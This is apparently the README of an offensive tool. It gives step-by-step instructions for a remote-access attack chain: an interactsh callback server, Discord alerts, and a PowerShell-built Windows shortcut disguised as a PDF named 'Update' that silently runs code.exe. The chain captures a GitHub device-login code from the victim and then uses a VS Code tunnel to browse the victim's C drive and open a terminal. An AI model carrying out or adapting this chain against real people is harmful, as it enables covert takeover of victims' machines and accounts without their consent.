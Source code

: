 ## Prerequisites

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install golang -y
go install -v github.com/projectdiscovery/notify/cmd/notify@latest
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-server@latest
sudo cp ~/go/bin/* /usr/local/sbin/
```
### Notify Integration
The run.py script contains the option to send notifications to a discord/slack server
To set this up follow the below steps:
1. Setup a discord server with a channel name of your choice, this channel will contain the notifications 
2. Create a webhook within discord by clicking the settings cog on the channel 
3. select 'integrations'
4. create a file at : `$HOME/.config/notify/provider-config.yaml` with the following contents:
```yaml
discord:
  - id: "NAME"
    discord_channel: "CHANNEL-NAME"
    discord_username: "USERNAME OF BOT"
    discord_format: "{{data}}"
    discord_webhook_url: "https://discord.com/api/webhooks/XXXXXXXX"
```
4. Replace the placeholders with your own information, leave the discord_format untouched unless you know what you're doing
5. Done! Notifications will be sent to the discord server

### Github
- Github account required - can just be a burner account 

### DuckDns
- https://www.duckdns.org/
- Sign in with github and follow the steps located under the 'install' menu
- If you have a domain name and wish to use that instead then you just need to point the name servers to your VPS

### Server prefernces
- I used a VPS from oracle cloud, their free tier is truly free but with very limited resources 


## Limitations
https://app.interactsh.com appears to be down quite often and unreiable this method is a bit of a workaround but functions in a similar fashion, instead of having a clean web-interface, github codes are sent through a discord channel. 

## Server setup
```bash
# Run everything in a tmux session so it persists on logout 
tmux new-session -d 'interactsh-server -domain FIXME.DOMAIN.com -skip-acme'
tmux new-session -d 'interactsh-client -s -v FIXME.DOMAIN.com -o output.log'
tmux new-session -d 'python3 run.py'
```
OR
You can use the tmux-setup.sh script to run these steps for you, you just need to change the domain name to match your own

## Creating the payload
#### creator.ps1
On a windows machine, executing the creator.ps1 script will create a shortcut, we will use this to create an attack chain. You can modify the contents of the powershell script as you see fit. 
Here are the defaults:
- Runs the code.exe binary in a hidden window
- Runs the shortcut in a minimized window
- Shortcut name : 'Update'
- Shortcut icon : 'PDF'
- Replace the FIXME-URI with your interactsh CLIENT payload for example:
`c38721878dsj.example.domain.com`

#### Grabbing the github token
This section assumes you have the following actions already completed:
1. interactsh server running 
2. interactsh client running
3. github account created
4. discord integrations setup
5. run.py running 
Once the shortcut is run on the victims machine, it can then be executed. You should shortly see a notification appear in the discord channel with a code. This code can then be passed to:
`https://github.com/login/device/`

#### Interacting with the victim
Now that we have authenticated using the github token, we can navigate to:
`https://vscode.dev/`
1. click on remote explorer 
2. select 'remote' from the dropdown menu and you should see the name of the tunnel you setup 
3. you can then go to `https://vscode.dev/TUNNELNAME/C:` to view the contents of the C drive
4. you can run a terminal window 